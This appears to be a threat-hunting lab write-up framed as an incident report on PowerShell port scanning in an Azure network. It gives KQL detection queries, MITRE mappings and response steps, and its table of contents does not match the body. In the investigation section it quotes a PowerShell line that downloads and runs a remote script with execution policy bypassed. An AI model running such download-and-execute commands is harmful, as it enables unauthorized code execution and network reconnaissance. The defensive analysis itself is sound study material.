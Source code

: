 

# Sudden Network Slowdowns Project 
# Objective:
To investigate abnormal traffic patterns originating from within the network, identify any signs of lateral movement or misuse of built-in tools (e.g., PowerShell), and validate whether an internal host is responsible for the performance degradation.

---
# Tools & Technology:
- Azure Virtual Machine
- PowerShell 
- Microsoft Defender
- KQL Query

---
# Table of contents

- [Step 1) Create a Windows virtual machine in the Azure portal](#step-1-create-a-windows-virtual-machine-in-the-azure-portal)
- [Step 2) Log into the VM and disable the Windows Firewall](#step-2-log-into-the-vm-and-disable-the-windows-firewall)
- [Step 3) Run a PowerShell command:](#step-3-run-a-powershell-command)
- [Step 4) Create a Network Security Group](#step-4-create-a-network-security-group)
- [Step 5) Login to tenable](#step-5-login-to-tenable)
- [Step 6) Run a Basic Scan: Unauthenticated](#step-6-run-a-basic-scan-unauthenticated)
- [Step 7) Run a Basic Scan: Authenticated](#step-7-run-a-basic-scan-authenticated)
- [Difference in Scan Duration](#difference-in-scan-duration)

---


## 🛡️ Incident Report: Internal Port Scanning Activity on 10.0.0.0/16 Network
## 1. Summary
Incident Title: Unauthorized Internal Port Scanning via PowerShell <br />
Date of Discovery: June 10, 2025 <br />
Reporting Team: Security Operations / Threat Hunting <br />
Impacted Network Segment: 10.0.0.0/16 <br />
Affected Host: windows-target-1 (10.0.0.5) <br />
TTPs Observed: T1046, T1059.001, T1078, T1105, T1204.002 <br />
Incident Status: Contained; Rebuilt/ Re-imaging  <br />

## 2. Preparation
### Observation:
The server team reported network performance degradation affecting older devices on the 10.0.0.0/16 internal network.

### Initial Assumption:
After ruling out external threats (e.g., DDoS), internal causes such as large file transfers or port scanning were considered. The environment allows unrestricted internal traffic and the use of scripting tools like PowerShell.

### Hypothesis:
A compromised internal host may be engaging in lateral movement or reconnaissance via port scanning.

## 3. Data Collection
Data Sources Queried:

DeviceNetworkEvents

DeviceProcessEvents

DeviceFileEvents

Focus Areas:

Failed network connections (potential scanning)

Suspicious process executions

File downloads or script execution activity

## 4. Data Analysis
### Step 1:
Analyzed DeviceNetworkEvents for failed outbound connection attempts.

kusto
Copy
Edit
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| summarize FailedConnectionsAttempts = count() by DeviceName, LocalIP
| order by FailedConnectionsAttempts desc
Result: IP 10.0.0.5 exhibited an unusually high number of failed connections.

### Step 2:
Filtered for all failed connection timestamps for IP 10.0.0.5:

kusto
Copy
Edit
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| where LocalIP == "10.0.0.5"
| order by Timestamp desc
Finding:
Connections were attempted to multiple ports in sequential order—indicating an automated port scan.

## 5. Investigation
### Step 3:
Pivoted to DeviceProcessEvents for host windows-target-1 and timestamp near suspicious activity:

kusto
Copy
Edit
let specificTime = datetime(2025-06-10T08:41:10.2458249Z);
DeviceProcessEvents
| where Timestamp between ((specificTime - 10m) .. (specificTime + 10m))
| where DeviceName == "windows-target-1"
| order by Timestamp desc
| project Timestamp, FileName, InitiatingProcessCommandLine, AccountName
Key Finding:
A PowerShell command was executed at 2025-06-10T08:37:51Z with the following line:

powershell
Copy
Edit
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/.../portscan.ps1' -OutFile 'C:\programdata\portscan.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
Account:
Executed by SYSTEM — not expected behavior; not triggered by any admin.

## 6. Response
Actions Taken:

Logged into the device to verify script existence.

Confirmed the file portscan.ps1 existed under C:\ProgramData.

Isolated the host from the network.

Performed a full malware scan (no malware detected).

Escalated to IT for reimaging of the device to ensure integrity.

## 7. MITRE ATT&CK Mapping
markdown
Copy
Edit
- T1046 - Network Service Discovery  
  (Port scanning activity to identify open services)

- T1059.001 - Command and Scripting Interpreter: PowerShell  
  (Execution of PowerShell script to perform scan)

- T1078 - Valid Accounts  
  (Script executed under SYSTEM account)

- T1105 - Ingress Tool Transfer  
  (Script downloaded from external URL using Invoke-WebRequest)

- T1204.002 - User Execution: Malicious File  
  (Execution of suspicious PowerShell file)

- T1562.001 - Impair Defenses (if applicable)  
  (Not confirmed, but would apply if local defenses were bypassed or modified)
## 8. Lessons Learned / Improvement
Preventive Measures:

Implement internal network segmentation to reduce lateral movement risk.

Restrict PowerShell usage via GPO or allow-listing.

Apply egress controls and file reputation filtering for outbound web requests.

Increase visibility over SYSTEM-level activities on endpoints.

Detection Enhancements:

Create alerts for abnormal outbound connection spikes.

Monitor for suspicious PowerShell usage and external script downloads.

Correlate failed connection logs with script execution patterns.

## 9. Final Status
Threat Contained: ✅

Device Isolated: ✅

Malware Scan Result: Clean

Device Action: Ticket submitted for full rebuild

Follow-up: Review PowerShell execution policies and endpoint monitoring rules


